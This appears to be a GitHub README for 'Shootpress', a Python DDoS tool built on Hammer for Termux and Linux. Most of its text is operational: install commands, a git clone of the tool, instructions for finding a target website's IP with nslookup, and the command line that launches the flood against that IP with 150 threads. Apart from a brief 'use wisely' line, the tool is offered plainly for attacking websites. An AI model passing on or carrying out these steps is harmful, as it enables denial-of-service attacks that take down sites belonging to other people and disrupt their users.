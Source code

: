 Shootpress is a script that functions as a tool in carrying out DDoS attacks that are developed based on Hammer. This script can run on Android using Termux, and can also run on Linux devices.<br>
<br>
Hope you can use this script wisely.<br>
<br>
<b>How to:</b><br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/ronidianpatisa/Shootpress/

Shootpress need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Shootpress<br>
$ python shootpress.py -s [ip Address] -t 150<br>
example:<br>
$ python shootpress.py -s 123.45.67.89 -t 150<br>
